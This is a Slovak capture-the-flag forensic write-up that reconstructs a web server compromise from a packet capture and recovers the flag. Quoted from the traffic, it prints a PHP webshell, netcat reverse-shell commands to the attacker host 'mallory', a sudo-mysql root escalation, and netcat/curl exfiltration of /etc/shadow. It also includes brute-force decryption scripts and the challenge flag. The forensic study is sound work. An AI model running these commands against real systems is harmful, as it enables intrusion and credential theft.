

# Zadanie

Hi, emergency troubleshooter,

one of our web servers has apparently been compromised, analyze what happened from the record of recorded suspicious communication.

Stay grounded!

- [Download pcap for analysis](suspicious_communication.zip)

**Súbory**

- [suspicious_communication.zip](suspicious_communication.zip)

## Riešenie

Priložený archív v prílohe obsahuje pcap súbor a na to je hádam najlepší software Wireshark.

Po otvorení ako prvé vidím, že niekto skenoval porty. Konkrétne IP 10.99.254.2 skenovala porty na 10.99.25.101. Ako je vidieť najprv sa skenujú štandardné porty, počínajúc 111,1025,995,8888,113,587,21,23,8000,143,139,1750,22,99,53,135,25,443,80 a pod. a odpoveď práve dostal z port 80, z čoho útočník usúdil, že na danej IP beží web.

Následne už vidieť prvú GET požiadavku na `/`, kde prišla odpoveď `404`. Následne nejaké OPTIONS požiadavky, na ktoré dostal odpoveď `200`, prípadne PROPFIND s odpoveďou `405`. Chvíľu na to vidieť enumeráciu webu a pokus o hľadanie aktívných endpointov od Frame 2265 až po frame 95347, kde útočník narazil na nedpoint `/filemanager.php` s odpoveďou `401`  na frame 19101 a neskôr na endpoint `/app` s odpoveďou 301 na Location `/app/`, kde následne dostal odpoveď `403` na frame 53515. 

Zadaním `http` výrazu do filtra uvidím len frames typu http.

Následne od frame 95359 začal bruteforce mien a hesiel. Ako prvé brutil meno `adam`, až po frame 100802, ale neúspešne. Od frame 100809 začínajú pokusy na meno `admin` až po frame 106250, ale neúspešne. Od frame 106257 začínaju pokusy na meno `alice`, ktoré sa podarilo prelomiť pri hesle `tester` na frame 111698.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Simple Auth App</title>
    <link rel="stylesheet" href="/app/css/bootstrap.min.css">
</head>
<body class="p-5">
<div class="container">
<nav class="mb-4">
    <a href="/app/index.php" class="btn btn-outline-primary mr-2">Home</a>
    <a href="/app/registered.php" class="btn btn-outline-primary mr-2">Registered Users</a>
        <a href="/app/logout.php" class="btn btn-outline-danger">Logout</a>
</nav><h1 class="mb-4">Welcome, alice!</h1>
<p class="lead">These pages are under construction.</p>
</div>
</body>
</html>
```

Následne, ako autorizovaný používateľ využil predtým objavený endpoint `/filemanager.php` a odoslal POST request na `http://server-www/filemanager.php?p=uploads&upload` s obsahom

```
--5c71eedfb004e4a84d2b08c29b9a75ce
Content-Disposition: form-data; name="upload[]"; filename="ws.php"

<?php if($_POST['c']){system($_POST['c']);} ?>

--5c71eedfb004e4a84d2b08c29b9a75ce
Content-Disposition: form-data; name="p"

uploads
--5c71eedfb004e4a84d2b08c29b9a75ce
Content-Disposition: form-data; name="upl"

1
--5c71eedfb004e4a84d2b08c29b9a75ce--
```

čiže uploadol súbor `ws.php` s obsahom 

```php
<?php if($_POST['c']){system($_POST['c']);} ?>
```

čo je vlastne php webshell.

Keďže útočník videl toto



bolo mu jasné, že súbor nájde na endpointe `/uploads/ws.php` a od frame 11756 začína posielať POST requesty s linux príkazmi.

| Frame  | Type     | Content                               |
| ------ | -------- | ------------------------------------- |
| 111756 | Request  | c=whoami                              |
|        | Command  | whoami                                |
| 111758 | Response | www-data                              |
|        |          |                                       |
| 111765 | Request  | c=nc+-e+%2Fbin%2Fsh+mallory+42121+%26 |
|        | Command  | nc -e /bin/sh mallory 42121 &         |
| 111772 | Response |                                       |

Tu si útočnik spawnol reverse shell u seba na porte 42121 a `&` zabezpečí, že sa v nezobrazí žiaden výstup a príkaz beží na pozadí. Tu sú priíkazy, ktoré zadával a odpovede na ne.

| Frame                | Type       | Content                                                                                                                                                                                                                                                                                                                                                      |
| -------------------- | ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| 111780               | Command    | id                                                                                                                                                                                                                                                                                                                                                           |
| 111782               | Response   | uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                                                                                                                                                                                                                                        |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111804               | Command    | uname -a                                                                                                                                                                                                                                                                                                                                                     |
| 111805               | Response   | Linux 2c1c649ff17d 6.1.0-37-amd64 #1 SMP PREEMPT_DYNAMIC<br> Debian 6.1.140-1 (2025-05-22) x86_64 GNU/Linux                                                                                                                                                                                                                                                  |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111825               | Command    | whoami                                                                                                                                                                                                                                                                                                                                                       |
| 111826               | Response   | www-data                                                                                                                                                                                                                                                                                                                                                     |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111835               | Command    | pwd                                                                                                                                                                                                                                                                                                                                                          |
| 111836               | Response   | /var/www/html/uploads                                                                                                                                                                                                                                                                                                                                        |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111838               | Command    | df -h                                                                                                                                                                                                                                                                                                                                                        |
| 111839               | Response   | Filesystem      Size  Used Avail Use% Mounted on<br> overlay          98G   44G   51G  47% /<br>tmpfs            64M     0   64M   0% /dev<br> shm              64M     0   64M   0% /dev/shm<br> /dev/sda2        98G   44G   51G  47% /shared<br> tmpfs           3.9G     0  3.9G   0% /proc/acpi<br> tmpfs           3.9G     0  3.9G   0% /sys/firmware |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111841               | Command    | tar -zcf /tmp/html.tgz /var/www/html<br> (útočník vytvoril archív z priečinka /var/www/html)                                                                                                                                                                                                                                                                 |
| 111842               | Response   |                                                                                                                                                                                                                                                                                                                                                              |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111843               | Command    | cat /tmp/html.tgz \| nc mallory 42122<br>(útočník si súbor poslal cez netcat na port 42122)                                                                                                                                                                                                                                                                  |
| 111844               | Response   |                                                                                                                                                                                                                                                                                                                                                              |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111847<br>-<br>11866 | TCP Stream | máme [html.tgz](html.tgz)                                                                                                                                                                                                                                                                                                                                    |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111867               | Command    | sudo -l<br>(útočník zisťuje, čo je v sudoers a zistil, že môže ako root pomocou sudo spustiť príkaz mysql)                                                                                                                                                                                                                                                   |
| 111869               | Response   | Matching Defaults entries for<br> www-data on 2c1c649ff17d:<br>    env_reset, mail_badpass,<br>    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,<br>    use_pty<br><br>User www-data may run the following commands on 2c1c649ff17d:<br>    (root) NOPASSWD: /usr/bin/mysql*                                                |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111871               | Command    | sudo /usr/bin/mysql -e '\! nc -e /bin/sh mallory 42123'<br> (útočník vytvoril nový reverse shell, tentokrát na porte 42123)                                                                                                                                                                                                                                  |
| 111877               | Response   |                                                                                                                                                                                                                                                                                                                                                              |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111897               | Command    | exit                                                                                                                                                                                                                                                                                                                                                         |
| 111898               | Response   |                                                                                                                                                                                                                                                                                                                                                              |

Ako vidíme, útočníl vykonal sériu prikazov, počas ktorých exfiltroval obsah priečinka s webom, neskôr zistil, že pomocou sudo može bez nutnosti zadať heslo ako root spustiť príkaz `mysql` a cez tento príkaz si spawnol reverse shell na porte 42123, tentokrát ale ako root.

Obsah webového priečinka je

```
var/www/html/
├── app
│   ├── admin.php
│   ├── auth.php
│   ├── backup.php
│   ├── css
│   │   └── bootstrap.min.css
│   ├── index.php
│   ├── logout.php
│   ├── registered.php
│   └── templates
│       └── header.php
├── filemanager.php
└── uploads
    └── ws.php
```

najzaujímavejší je `backup.php`

```php
<?php
require 'auth.php';
require_auth();

if (!is_admin()) {
    http_response_code(403);
    die('Access denied. Only admin can create backup.');
}

$flagPath = "/secrets/flag.txt";
$password = current_pass();

if (!file_exists($flagPath)) {
    die("Flag file not found.");
}

$flagData = file_get_contents($flagPath);

$iv = substr(hash('sha256', 'iv' . $password), 0, 16);
$key = hash('sha256', $password, true);

$encrypted = openssl_encrypt($flagData, 'aes-256-cbc', $key, 0, $iv);
if ($encrypted === false) {
    die("Encryption failed.");
}

// Nabídne soubor k downloadu
header('Content-Type: application/octet-stream');
header('Content-Disposition: attachment; filename="backup.enc"');
header('Content-Length: ' . strlen($encrypted));

echo $encrypted;
exit;
```

Tu vidieť, že ako admin je možné urobiť šifrovaný backup vlajky, ale vo wiresharku nebola vôbec zmienka o tom, že by bol zavolaný tento endpoint. Pokračujem v analýze, možno sa dozviem niečo zaujímavé z komunikácie na porte 42123.

| Frame                 | Type       | Content                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| --------------------- | ---------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 111878                | Command    | cat /etc/passwd<br>(útočník zisťuje zoznam aktívných používateľov)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 111880                | Response   | root\:x\:0\:0\:root\:/root\:/bin/bash<br>daemon\:x\:1\:1\:daemon\:/usr/sbin\:/usr/sbin/nologin<br>bin\:x\:2\:2\:bin\:/bin\:/usr/sbin/nologin<br>sys\:x\:3\:3\:sys\:/dev\:/usr/sbin/nologin<br>sync\:x\:4\:65534\:sync\:/bin\:/bin/sync<br>games\:x\:5\:60\:games\:/usr/games\:/usr/sbin/nologin<br>man\:x\:6\:12\:man\:/var/cache/man\:/usr/sbin/nologin<br>lp\:x\:7\:7\:lp\:/var/spool/lpd\:/usr/sbin/nologin<br>mail\:x\:8\:8\:mail\:/var/mail\:/usr/sbin/nologin<br>news\:x\:9\:9\:news\:/var/spool/news\:/usr/sbin/nologin<br>uucp\:x\:10\:10\:uucp\:/var/spool/uucp\:/usr/sbin/nologin<br>proxy\:x\:13\:13\:proxy\:/bin\:/usr/sbin/nologin<br>www-data\:x\:33\:33\:www-data\:/var/www\:/usr/sbin/nologin<br>backup\:x\:34\:34\:backup\:/var/backups\:/usr/sbin/nologin<br>list\:x\:38\:38\:Mailing List Manager\:/var/list\:/usr/sbin/nologin<br>irc\:x\:39\:39\:ircd\:/run/ircd\:/usr/sbin/nologin<br>_apt\:x\:42\:65534\:\:/nonexistent\:/usr/sbin/nologin<br>nobody\:x\:65534\:65534\:nobody\:/nonexistent\:/usr/sbin/nologin<br>mysql\:x\:100\:101\:MySQL Server,,,\:/nonexistent\:/bin/false<br>messagebus\:x\:101\:102\:\:/nonexistent\:/usr/sbin/nologin<br>tcpdump\:x\:102\:104\:\:/nonexistent\:/usr/sbin/nologin<br>webmaster\:x\:1000\:1000\:,,,\:/home/webmaster\:/bin/bash |
|                       |            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 111901                | Command    | tar zcf /tmp/all.tgz /etc /root /home<br>(útočník vytvára archív all.tgz s obsahom priečinkov  /etc /root a /home)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 111906                | Response   |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|                       |            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 111925                | Command    | curl -k -s https://mallory:42120/pincode/\`hostname -f\` > /tmp/secret<br>(útočník exfiltruje /tmp/secret s obsahom nejakého 6-miestneho pin kódu na svoj https web server mallory na porte 42120)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 111926                | Response   |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|                       |            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 111951                | Command    | ls -alh /tmp                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 111953                | Response   | total 17M<br>drwxrwxrwt 1 root     root     4.0K Jul 16 08:07 .<br>drwxr-xr-x 1 root     root     4.0K Jul 16 08:05 ..<br>-rw-r--r-- 1 root     root      17M Jul 16 08:07 all.tgz<br>-rw------- 1 root     root      182 Jul 16 08:05 apache2-stderr---supervisor-gvzlqfqv.log<br>-rw------- 1 root     root        0 Jul 16 08:05 apache2-stdout---supervisor-l6ohlz0u.log<br>-rw-r--r-- 1 www-data www-data  46K Jul 16 08:07 html.tgz<br>-rw------- 1 root     root        0 Jul 16 08:05 mysqld_safe-stderr---supervisor-g6ruwbqj.log<br>-rw------- 1 root     root      135 Jul 16 08:05 mysqld_safe-stdout---supervisor-lct36jfa.log<br>drwxr-xr-x 2 root     root     4.0K Jul 16 08:05 output<br>-rw------- 1 root     root      131 Jul 16 08:05 pcap-stderr---supervisor-cl8n5_cp.log<br>-rw------- 1 root     root        0 Jul 16 08:05 pcap-stdout---supervisor-qrq22yby.log<br>-rw-r--r-- 1 root     root        6 Jul 16 08:07 secret                                                                                                                                                                                                                                                                                                                                        |
|                       |            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 111985                | Command    | cat /etc/shadow \| openssl enc -aes-256-cbc -e -a -salt -pbkdf2 -iter 10 -pass file:/tmp/secret \| nc mallory 42124<br>(útočnik zašifroval pinkódom súbor /etc/shadow a exfiltroval na port 42124)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 111993                | Response   |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|                       |            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 111988<br>-<br>112000 | TCP Stream | máme [shadow.enc](shadow.enc)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|                       |            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 112001                | Command    | cat /tmp/all.tgz \| openssl enc -aes-256-cbc -e -a -salt -pbkdf2 -iter 10 -pass file:/tmp/secret \| nc mallory 42125<br>(útočnik zašifroval rovankým pinkódom aj archív /tmp/all.tgz a exfiltroval na port 42125)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 112002                | Response   |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|                       |            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 112005<br>-<br>113422 | TCP Stream | máme [all.tgz.enc](all.tgz.enc)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|                       |            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 112734                | Command    | exit                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 112735                | Response   |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |

Máme dva nové súbory, oba sú ale zašifrované nejakým pinkódom, ktorý však nedokážem zistiť, nakoľko záznam o jeho odoslaní je vo forme SSL packetov. Ale kedže máme jeden súbor (`/etc/shadow`) ktorého pôvodnú štruktúru poznáme aj vďaka už zobrazenému `/etc/passwd` a pinkód, resp. passcode je 6-miestny kód, tak za prepokladu, že ide o čisto numerický pinkód ho dokážem behom chvíle bruteforce-núť.

```bash
ENC="shadow.enc"
OUT="/tmp/shadow"
TMP="/tmp/openssl_in.bin"

cleanup() {
  rm -f "$TMP"
}
trap cleanup EXIT

if [ ! -f "$ENC" ]; then
  echo "ERROR: $ENC not found"
  exit 2
fi

base64 -d "$ENC" > "$TMP" || { echo "base64 decode failed"; exit 3; }

echo "[*] Starting brute force 000000..999999 on $ENC"

for i in $(seq -w 000000 999999); do
  printf "\rTrying PIN %s" "$i" >/dev/tty 2>/dev/null || printf "\rTrying PIN %s" "$i"
  if openssl enc -d -aes-256-cbc -pbkdf2 -iter 10 -in "$TMP" -out "$OUT" -pass pass:"$i" 2>/dev/null; then
    if grep -q '^root:' "$OUT"; then
      printf "\n"
      echo "[+] FOUND PIN: $i"
      echo "[+] Decrypted saved to: $OUT"
      exit 0
    else
      rm -f "$OUT"
    fi
  fi
done

printf "\n"
end=$(date +%s)
echo "[!] PIN NOT FOUND in range 000000-999999 (time $((end-start))s)"
rm -f "$TMP" "$OUT"
exit 1
```

Vďaka tomuto sme odhalili pinkód a je to `101525`.

```
$ ./brute.sh
[*] Starting brute force 000000..999999 on shadow.enc
Trying PIN 101525
[+] FOUND PIN: 101525
[+] Decrypted saved to: /tmp/shadow
```

A môžeme dešifrovať `all.tgz` príkazom

`openssl enc -d -aes-256-cbc -a -pbkdf2 -iter 10 -in all.tgz.enc -out all.tgz -pass pass:101525` .. No a máme [all.tgz](all.tgz).

Prehliadnutím celého archívu môžem usúdiť, že vďaka tomu mám private ssl key (z `/etc/ssl/private/ssl-cert-snakeoil.key`) napadnutého webu, ktorý môžem použiť vo wiresharku a vidieť https komunikáciu a dúfam, že uvidím zavolanie endpointu `backup.php`.

Pre tých, čo nevedia ako, vo Wireshark kliknúť na záložku `Edit`, v nej `Preferences`, následne v ľavom paneli rozbaliť `Protocols` a nájsť položku `TLS`. Tam kliknúť na `Edit...` vedľa `RSA keys list`, otvorí sa ďalšie okno, tam vľavo dole klik na `+`, do stĺpca `IP address` zadať `2001:db8:7cc::25:101`, do `Port` zadať `443`, do Protokol zadať `http`, do Key File kliknúť na `Browse` a vybrať ten súbor s kľúčom. Zopakovať ešte raz, `+`, ale do IP dať `10.99.25.101`. Popotvrdzovať OK, OK.. a na hlavnom okne by sa mal refreshnúť packet stream nanovo a SSL pakety z týchto IP by sa mali zobraziť ako nešifrované (dešifrované) http.

Frame 111711 obsahuje GET request na endpoint `/app/backup.php`, ktorý vrátil odpoveď

```
aOI32ayLIofLCXLWZtzmdY077Q1jcYUQof7GFBbOWHY=
```

Z php kódu tohto endpointu

```php
$flagPath = "/secrets/flag.txt";
$password = current_pass();

if (!file_exists($flagPath)) {
    die("Flag file not found.");
}

$flagData = file_get_contents($flagPath);

$iv = substr(hash('sha256', 'iv' . $password), 0, 16);
$key = hash('sha256', $password, true);

$encrypted = openssl_encrypt($flagData, 'aes-256-cbc', $key, 0, $iv);
if ($encrypted === false) {
    die("Encryption failed.");
}
```

vieme, že na šifrovanie je použité `aes-256-cbc`

a password je z auth.php

```php
function current_pass() {
    return $_SESSION['pass'] ?? null;
}
```

Frame 99397 obsahuje request na endpoint `/app/admin.php` so zobrazením stránky, kde môže admin vytvoriť šifrovanú zálohu vlajky


Ale packety z IP, ktoré súvisia s prihlásením admina sú len 4, a v hlavičkách je už len PHPSESSID, čiže prihlásenie a teda heslo nevieme. Asi nám opäť zostáva trápny bruteforce, ktorého máme tento rok na The Catch až prehnane veľa.

```python
from Crypto.Cipher import AES
import hashlib, base64, sys

PATH_ROCKYOU = "rockyou.txt"
CIPHER_BASE64 = "aOI32ayLIofLCXLWZtzmdY077Q1jcYUQof7GFBbOWHY="

def unpad(data: bytes) -> bytes:
    if not data:
        return data
    pad = data[-1]
    if pad < 1 or pad > 16:
        raise ValueError("badpad")
    if data[-pad:] != bytes([pad]) * pad:
        raise ValueError("badpad")
    return data[:-pad]

try:
    ct = base64.b64decode(CIPHER_BASE64)
except Exception as e:
    print("Invalid base64 ciphertext:", e); sys.exit(1)

try:
    f = open(PATH_ROCKYOU, "rb")
except Exception as e:
    print("Cannot open rockyou:", e); sys.exit(1)

print("[*] Starting, reading wordlist from", PATH_ROCKYOU)
for raw in f:
    pw = raw.rstrip(b"\r\n")
    if not pw:
        continue
    key = hashlib.sha256(pw).digest()
    iv_hexprefix = hashlib.sha256(b"iv" + pw).hexdigest()[:16]
    iv = iv_hexprefix.encode()

    try:
        cipher = AES.new(key, AES.MODE_CBC, iv)
        pt = cipher.decrypt(ct)
        pt = unpad(pt)
        try:
            txt = pt.decode('utf-8', errors='strict')
        except Exception:
            continue
        if any(x in txt for x in ("FLAG{")):
            print("[+] PASSWORD:", pw.decode('utf-8', errors='replace'))
            print("[+] PLAINTEXT:")
            print(txt)
            f.close()
            sys.exit(0)
    except Exception:
        continue

f.close()
print("[!] Not found in wordlist")
```

A výstup skriptu je

```
[*] Starting, reading wordlist from rockyou.txt
[+] PASSWORD: Bananas9   
[+] PLAINTEXT:
FLAG{kyAi-J2NA-n6nE-ZIX6}
```

## Vlajka

    FLAG{kyAi-J2NA-n6nE-ZIX6}
